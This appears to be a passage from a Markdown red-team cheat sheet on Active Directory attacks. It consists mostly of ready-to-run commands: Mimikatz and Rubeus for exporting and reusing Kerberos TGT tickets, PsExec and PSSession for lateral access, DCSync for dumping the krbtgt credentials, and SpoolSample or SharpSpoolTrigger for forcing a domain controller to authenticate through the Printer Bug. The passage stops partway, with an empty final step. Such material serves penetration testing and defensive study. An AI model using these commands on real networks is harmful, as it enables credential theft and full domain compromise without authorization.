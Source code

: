 ````

#### Export the TGT ticket
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

```
.\Rubeus.exe dump /luid:<LUID> /service:<SERVICE>
```

#### Reuse the TGT ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'
```

```
.\Rubeus.exe ptt /ticket:<TICKET FILE>
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Printer bug
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
- Can be chained together with [S4Uself](Lateral-Movement.md#S4U2self)
- https://github.com/leechristensen/SpoolSample

#### Check if spool server is running
```
#Edit IP at the bottom
spoolerscan.ps1
```

```
ls \\<DC>\pipe\spoolss
```

#### Listen with rubeus for incoming tickets
- Requires running as system!
- https://powershell-guru.com/powershell-tip-53-run-powershell-as-system/
```
.\Rubeus.exe monitor /interval:5 /nowrap
```

#### Force authentication of the DC
- https://github.com/leechristensen/SpoolSample
- https://github.com/cube0x0/SharpSystemTriggers
```
.\SpoolSample.exe <DC FQDN> <TARGET SERVER WITH DELEGATION>

.\SharpSpoolTrigger.exe <DC FQDN> <TARGET SERVER WITH DELEGATION>
```

#### Import the ticket
- Paste the ticket from previous command
```
````